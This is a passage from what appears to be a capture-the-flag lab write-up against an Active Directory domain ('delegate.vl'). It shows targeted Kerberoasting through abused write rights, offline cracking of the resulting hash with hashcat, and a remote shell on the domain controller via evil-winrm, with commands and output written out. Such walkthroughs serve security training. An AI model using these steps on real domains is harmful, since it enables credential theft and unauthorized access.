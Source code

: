 The user "A.BRIGGS" has generic write access to the user "N.THOMPSON".  
From the perspective of the attacker, the compromised user "A.BRIGGS" can abuse this to add a new SPN to the user "N.THOMPSON" and kerberoast that account.

# Initial Foothold
## Targeted Kerberoasting
```bash
> git clone https://github.com/ShutdownRepo/targetedKerberoast.git
> cd targetedKerberoast
> python targetedKerberoast.py -v -d 'delegate.vl' -u 'A.Briggs' -p '<redacted>'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (N.Thompson)
[+] Printing hash for (N.Thompson)
$krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl/N.Thompson*$c8bb2001c426ace6883c5b50f35be993$df413c927...<redacted>
[VERBOSE] SPN removed successfully for (N.Thompson)
```

We can save the hash into a file and attempt to crack offline:
```bash
> hashcat -m 13100 nthompson.hash /usr/share/wordlists/rockyou.txt
$krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl/N.Thompson*$c8bb2001c426ace6883c5b50f35be993$df413c927...<redacted>:<redacted>
```
Cracked! User "N.THOMPSON" can PSRemote into the DC1, lets get a shell using its credentials and start enumerating:
```bash
> evil-winrm -i delegate.vl -u 'N.Thompson' -p '<redacted>'

*Evil-WinRM* PS C:\Users\N.Thompson\Documents> whoami /all                                                              
                                                                                                                        
USER INFORMATION
----------------

User Name           SID
=================== ==============================================
delegate\n.thompson S-1-5-21-1484473093-3449528695-2030935120-1108


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
```